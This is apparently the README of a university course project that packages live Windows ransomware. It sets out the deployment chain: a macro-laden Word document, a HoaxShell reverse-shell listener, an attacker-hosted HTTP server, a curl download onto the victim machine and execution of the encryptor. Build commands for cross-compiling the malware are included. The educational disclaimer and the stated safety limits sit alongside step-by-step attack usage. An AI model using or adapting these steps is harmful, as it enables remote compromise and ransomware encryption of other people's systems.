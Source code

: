 # Disclaimer: Educational Use Only
This is a live ransomware, and can be activated. Source code has been provided, and safety checks have been builtin and processes are non-destructive. However, the malware can easily be activated and changed, and therefore use responsibily. This repository has been made private, and should only be accessed by the author and trusted individuals. Do not repurpose this educational ransomware for malicious purposes. 

If you are trusted, do not share this repository around. 

This ransomware is created strictly for educational purposes and is intended to demonstrate how ransomware works in a controlled environment. It is designed to help cybersecurity professionals, students, and researchers understand and learn about the mechanics of ransomware in order to improve defenses against such attacks.

By downloading or using this software, you agree to the following:

- You will use this tool in a legal and ethical manner, strictly for educational and research purposes in environments where you have permission.
- You acknowledge that deploying this software on systems without permission is illegal and may result in severe penalties under applicable laws.
- The developer is not responsible for any misuse of this software.
- Use responsibly, and always in compliance with local laws and regulations.

Make sure you ONLY COMPROMISE YOUR OWN SYSTEM, OR WITH WRITTEN PERMISSION. I will take no responsibility for any legal repurcussions.

# Something Awesome Ransomware - Simple (SARS)
This repository is created to host my Something Awesome Project for the course COMP6841. It is a ransomwware, designed to educate myself and others in malware developement, and the ease in which it can cause damage. It has been built to target Windows Machines, due to the majority of the world utilising a Windows System (and I also thought it would be more fun to target).

The ransomware creates a foothold in the system using a malicious Word Document with embedded macros. It requires a HoaxShell listening server (it's an awesome reverse shell, check it out below!), as well as a server hosting the files (for demonstration purposes, this would be targetted to my machine). Two strains/variants of this ransomware has been included - one to establish a C2 connection with a machine, the other as a fire-and-forget ransomware. 

There are safety checks in place to make sure the ransomware is as benign as possible. 
- Files are copied and encrypted, leaving the original file unscathed.
- An expiration time check has been included
- Keys are created and stored in the same file system.
- Would not traverse directories, and will only encrypted the current file layers.
- No lateral movement
- Will only run in a certain subdirectory.

# Installation
Run `git clone <insert link>` in your local terminal to clone the repository.

Install dependencies. These are:
- HoaxShell: https://github.com/t3l3machus/hoaxshell
- OpenSSL library for Linux:
  1. Run
```
wget https://www.openssl.org/source/openssl-1.1.1w.tar.gz
tar -xvzf openssl-1.1.1w.tar.gz
cd openssl-1.1.1w
```
2. Run `./Configure mingw64 no-asm shared --cross-compile-prefix=x86_64-w64-mingw32-` (ensure that MingGW is installed)
3. Run `make`
4. Run `make install DESTDIR=/path/to/target/directory`, preferably in the same directory as respository.
- MinGW: run `sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64`
- Word (Attack vector)
  
To compile the code: `x86_64-w64-mingw32-gcc -o <outfilename>.exe <file>.c -I./path/to/openssl/include -L.path/to/openssl -lssl -lcrypto -lws2_32 -lwsock32 -lcrypt32 -static`

# Usage/Demonstration (with C2 capabilities)
## Attacking
1. Create a HoaxShell listener on an attacking machine using the command `python3 hoaxshell.py -s <ip> -r -g`. Please refer to the HoaxShell documentation above to learn more about this tool
2. Activate the Word document (and its macros) on the victim machine.
3. Confirm that a connection has been established and a reverse shell created.
4. Create a web server on your own machine to host the files with `python3 -m http.server <insert port>`
5. Use `curl` to download your files onto the target machine with the C2.
6. Use `./<ransomware file name>` to activate.
Note: do not delete the key file. This is necessary for decryption.

## Decrypting
1. Ensure that the key file is present.
2. Compile the decryption software and run it on the victim machine.

Note: the decryption does not support multiple rounds of encryption.
